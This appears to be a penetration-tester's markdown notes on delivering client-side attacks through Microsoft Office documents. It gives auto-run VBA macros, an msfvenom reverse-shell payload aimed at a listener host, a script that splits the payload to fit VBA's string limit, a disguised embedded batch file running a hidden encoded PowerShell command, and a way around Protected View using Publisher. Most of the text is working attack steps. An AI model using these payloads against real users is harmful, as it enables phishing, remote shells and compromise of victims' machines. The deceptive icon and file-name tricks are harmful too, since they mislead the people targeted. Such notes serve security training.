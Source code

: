 ## Microsoft Office

Microsoft Office can be used to delivery client-side attacks as well, which are hard to distinguish as malicious.

### Microsoft Word Macros

The can include Visual Basic for Applications with full access to ActiveX objects and Windows Script Host.

To create a Macro to auto-run on open:

1. Select 'View' -> 'Macros'

2. Enter a name and select the current document for 'Macros in:'

3. Create procedures for AutoOpen and Document_Open to cause the macro to run when the document is opened for the first time or re-opened while already open.

4. Create a procedure with the exploit code in it and call it from the *Open procedures above.

   ```vbscript
   ' Basic VB script to auto-run a command on open
   Sub AutoOpen()
   MyMacro
   End Sub
   Sub Document_Open()
   MyMacro
   End Sub
   Sub MyMacro()
   CreateObject("Wscript.Shell").Run "cmd"
   End Sub
   ```

5. Be sure to save the containing document as .doc or .docm which support embedded macros, but NOT .docx (this may show as 'Word 97-2003 Document').

#### Reverse Shell

##### Payload

1. Use msfvenom to construct the payload using the hta format, but think of what the target will be connecting back to, if using laterally

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.216.10 LPORT=4444 -f hta-psh -o badfile.hta
   ```

2. Open the output file and copy from `"powershell.exe` to the quote at the end of the 64-bit encoded payload (but not the `,0` at the end)

3. To generate reverse shell code to insert into a macro, we must split up the command into multiple lines and concatenate them because VBA has a 255 character limit for literal strings, but that limit does not apply to strings stored in variables.

   ```python
   # Python script to split up command
   str = "COMMAND GOES HERE"
   n = 50
   for i in range(0, len(str), n):
   	print "Str = Str + " + '"' + str[i:i+n] + '"'
   ```

4. You can run this command and send the output to the clipboard with xclip

   ```bash
   python ./code-split.py | xclip -selection clipboard
   ```

5. This split code can then be inserted into the Macro in Word to avoid the 255 character limit.

   ```vbscript
   Sub mymacro()
       Dim Str as String
       <INSERT STRING BUILDER FROM PYTHON>
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

#### Verification

After transferring the file to Kali, you can verify the payload is intact with olevba

```bash
olevba FILENAME.DOC
```

https://github.com/decalage2/oletools/wiki/Install

### Object Linking and Embedding

Dynamic Data Exchange (DDE) is a popular vector of executing arbitrary code, but this has been patched since December of 2017.  

You can insert an embedded object, like a batch file, into a Word doc and trick the user into clicking on it to execute arbitrary code.

To insert an embedded object:

1. Go to 'Insert' -> Object button ![image-20200710222346085](.MSOffice.assets/image-20200710222346085.png)
2. Choose the create from file Tab
3. Select batch script file & select 'Display as Icon'
4. Choose a safe looking icon (like the Excel logo in C:\Program Files\Microsoft Office\root\Office16\Excel.exe) and change the name to something safe sounding (ReadMe.xls)

Batch File Example:

```powershell
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0AC
------SNIPPED------
BlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==
```

### Evading Protected View

Protected view sandboxes the doc, stopping our exploit.

Microsoft Publisher allows embedded objects and code execution but does not enable Protected View for Internet sourced docs.  The down-side is Publisher is less frequently installed than Word, however.

Also, when I tried it, the Icon wouldn't show up, so you'd need to put some kind of image there.